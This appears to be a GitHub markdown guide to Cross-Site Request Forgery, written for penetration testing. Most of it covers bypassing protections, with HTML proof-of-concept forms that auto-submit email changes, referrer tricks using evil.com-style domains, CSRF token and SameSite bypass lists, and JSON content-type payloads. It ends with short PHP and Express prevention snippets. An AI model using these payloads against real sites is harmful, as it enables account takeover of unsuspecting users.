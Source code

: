 # CSRF (Cross-Site Request Forgery) Guide

---

## What is Cross-Site Request Forgery (CSRF/XSRF)?

- Imagine you're logged into a website (e.g., banking site). At the same time, you visit a malicious site.
- The malicious site can make requests to the banking site **on your behalf**, without your knowledge.
- **Example Attack:** Change your email, reset password, or transfer funds.
- If the victim is an admin, the attacker could takeover the entire system.

---

## Protections Against CSRF

1. **Referrer Header Check**
2. **CSRF Tokens**
3. **SameSite Cookies**
4. **JSON Format Validation**

---

## Bypassing CSRF Protections

### 1. Referrer Header Bypass

#### Case (1): Remove Referrer
- Some apps don't validate if referrer is missing.

#### Case (2): Subdomain Trick
- If referrer is loosely validated, let's say the target is `account.example.com`, then try setting the Referrer to `account.exampleevil.com`. If it works, buy the domain `exampleevil.com`, create a subdomain named account, and continue your attack.
```http
Referrer: https://evil.com         → Error.
Referrer: https://exampleevil.com  → Success. 
```
- Buy `exampleevil.com` and create `account.exampleevil.com`.

#### Case (3): Using `@` or `/` to Obfuscate
```http
Referrer: https://evil.com/file@https://example.com
```
- Alternate characters: `|`, `/`, `?`, `#`
  - Example:
  	- `Referrer: https://evil.com/file     # Error.`
   - `Referrer: https://evil.com/file?//victim.com     # Success.`

#### HTML PoC with Referrer:
```html
<html>	
<head><meta name="referrer" content="unsafe-url"></head>   <!-- Means that you can send the referrer via HTTP or HTTPS -->
<body>
	<form name="hacker" method="POST" action="https://account.example.com/change_email">
		<input type="hidden" name="email" value="attacker@example.com">   <!-- The inputs are depending on the target variables  -->
	</form>
<!-- Referrer function “pushState”, If we're gonna type # instead of / We just will add # after / like that: /#file -->
	<!-- This function “pushState” takes whatever comes after evil.com -->
	<script>
			history.pushState('','','/file@account.example.com')
			document.form[0].submit();
	</script>
</body>
</html>
```

#### Case (4): Fake Parameter in Referrer
```html
<script>
  history.pushState('', '', '/?param=https://example.com');
  document.forms[0].submit();
</script>
```

#### • Case (5): Remove Referrer with `no-referrer`
```html
<meta name="referrer" content="no-referrer">
```

---

### 2. CSRF Token Bypass Techniques

- Remove the `csrf_token` parameter.
- Use random invalid token (`length ±1`).
- Slightly modify the token (spoof).
- Use token from attacker session.
- Change request method from POST → GET.
- Remove custom header (if token sent via header).
- Guess token (weak randomness).
- Set value to `"null"` or use null bytes.
- Steal token via XSS.
- Intercept and replay token from HTTP traffic.
- Exploit static part of tokens (`abc123XYZ`, `abc456XYZ`).
- Use type juggling (e.g., `0e123456` = `0` in PHP).

---

### 3. SameSite Cookies Bypass

#### • Types:

- **Strict**: Blocked unless same site origin.
- **Lax**: Allows top-level GET requests.
- **None**: Allows all but requires `Secure` (HTTPS).

#### • Detect via response headers:
```
Set-Cookie: session=abc; SameSite=Strict; Secure
```

#### • Strict Bypass:
- Look for open redirect or path traversal in JS.
```js
window.location = blogPath + '/' + postId;
```
Payload:
```html
<form method="POST" action="https://example.com?postId=../../../../change_email">
  <input type="hidden" name='{"test":"x' value='y", "new_email":"attacker@gmail.com"}'/>
</form>
```

#### • Lax Bypass:
- Must use GET.
- Requires user to click.
```html
<script>
  location = "https://example.com/change_email?email=attacker@example.com&_method=POST";
</script>
```

---

### 4. JSON Format Bypass

#### • Case (1): Change Content-Type
- From: `application/json`
- To: `application/x-www-form-urlencoded` or `text/plain`

```html
<form method="POST" action="https://example.com/phone.json" enctype="application/x-www-form-urlencoded">
  <input type="hidden" name='{"test":"x' value='y", "new_email":"attacker@gmail.com"}'/>
</form>
```

#### • Case (2): Only change `Content-Type`, keep JSON format
```html
<form method="POST" action="https://example.com/phone.json" enctype="text/plain">
  <input type="hidden" name='{"test":"x' value='y", "new_email":"attacker@gmail.com"}'/>
</form>
```

#### • Case (3): Change Method from PUT/PATCH → POST
- Replace JSON with URL-encoded or text body.

```http
PATCH → POST
Content-Type: application/json → text/plain
```

---

## ▪ Preventing CSRF

### • PHP:
```php
if ($_POST['csrf_token'] !== $_SESSION['csrf_token']) {
    die("Invalid CSRF Token");
}
```

### • Express.js:
```js
app.use(session({
  secret: "your_secret",
  resave: false,
  saveUninitialized: true,
  cookie: { sameSite: "Strict", secure: true }
}));
```

